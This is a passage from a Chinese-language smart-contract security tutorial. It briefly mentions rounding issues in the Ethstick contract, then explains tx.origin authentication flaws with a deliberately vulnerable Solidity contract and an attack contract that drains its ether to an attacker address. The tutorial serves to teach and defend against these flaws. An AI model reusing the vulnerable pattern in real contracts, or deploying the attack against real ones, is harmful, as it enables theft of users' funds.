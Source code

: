 ### **真实世界的例子：Ethstick**

我无法找到一个舍入问题导致合约漏洞的好例子，但我相信这里有很多。如果你有一个好的想法，请随时更新。

由于缺乏一个很好的例子，我希望读者能关注 <u>Ethstick</u>，主要是因为我喜欢合约中的酷命名。但是，这个合约并没有使用任何扩展的精确度，它是用 `wei` 来处理的。所以这个合约会有四舍五入的问题，但只会在 `wei` 的层级上出现。它有一些更严重的缺陷，但这些都与区块链上的熵源难题有关。关于 Ethstick 合约的进一步讨论，我推荐你阅读 Peter Venesses 的另一篇文章：<u>许多以太坊合约就是黑客的糖果</u>。

## **Tx.Origin 用作身份验证**

Solidity 中有一个全局变量， `tx.origin` ，它遍历整个调用栈并返回最初发送调用（或交易）的帐户的地址。在智能合约中使用此变量进行身份验证会使合约容易受到类似网络钓鱼的攻击。

有关进一步阅读，请参阅 <u>Stack Exchange Question</u>，<u>Peter Venesses 的博客</u>和 <u>Solidity - Tx.Origin 攻击</u>。

### **漏洞**

授权用户使用 `tx.origin` 变量的合约通常容易受到网络钓鱼攻击的攻击，这可能会诱骗用户在有漏洞的合约上执行身份验证操作。

考虑下面这个简单的合约，

```
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}
```

请注意，在 [11]行 中，此合约授权 `withdrawAll()` 函数使用 `tx.origin` 。攻击者可以创建下面形式的合约，

```
import "Phishable.sol";

contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.

    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
```

要利用这个合约，攻击者会先部署它，然后说服 `Phishable` 合约的所有者发送一定数量的 ETH 到这个恶意合约。攻击者可能把这个合约伪装成他们自己的私人地址，或者对受害人进行社会工程学攻击让后者发送某种形式的交易。受害者除非很小心，否则可能不会注意到目标地址上有代码，或者攻击者可能将其伪装为多重签名钱包或某些高级存储钱包。

